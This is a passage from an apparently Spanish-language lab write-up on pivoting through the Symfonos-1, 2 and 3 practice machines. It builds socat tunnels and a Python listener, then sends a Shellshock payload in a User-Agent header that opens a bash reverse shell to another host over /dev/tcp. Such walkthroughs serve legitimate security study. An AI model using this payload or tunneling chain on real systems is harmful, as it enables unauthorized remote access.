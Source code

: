 ahora lo que podemos hacer es probar si tenemos ejecución de comandos en esta parte de la petición
![[Pasted image 20240622195528.png]]

desde nuestra maquina lanzamos el comando haciendo un `curl` hacia la dirección IP de la `Symfonos-2` que tiene conexión con la `symfonos-3` en este caso es la `IP: 10.3.2.7:90` y apuntamos al puerto que tendremos a la escucha en el servidor de python en la maquina `Symfonos-2`
![[Pasted image 20240622200426.png]]

`Maquina Symfonos-2`
con un servidor en la maquina `symfonos-2` podemos verificar que al hacer la petición obtenemos un `200 ok` 
![[Pasted image 20240622200445.png]]

### Reverse shell tunneling
ahora debemos solo debemos enviarnos una shell a nuestra maquina de atacante. para poder realizar esto vamos a montar un túnel con socat en la maquina `Symfonos-1` 

`Paso-1`
```python
crear un tunel con socat por el cual nuestra peticion viajara desde la maquina Symfonos-1 hacia la maquina Attack

./socat TCP-LISTEN:3232,fork TCP:10.0.2.4:6060

```

![[Pasted image 20240622204717.png]]

`Paso-2 - Maquina Symfonos 2`
```python
crear un tunel con socat por el cual nuestra peticion viajara desde la maquina Symfonos-2 hacia la Symfonos-1

./socat TCP-LISTEN:3464,fork TCP:10.3.2.6:3232
```

![[Pasted image 20240622204749.png]]

`Paso-3 Maquina Attack`

```python
crear un servidor en python para estar a la escucha, este servidor debe estar en el mismo puerto que estamos usando el socat para redirigir el trafico

python3 -m http.server 6060
```

![[Pasted image 20240622202427.png]]

`Paso-4 Symfonos-3`
ejecutamos la petición nuevamente y ahora inyectamos nuestra reverse shell
```python
sudo proxychains curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.3.2.7/3464 0>&1' http://10.3.2.6/cgi-bin/underworld/admin.cgi 2>/dev/null
```
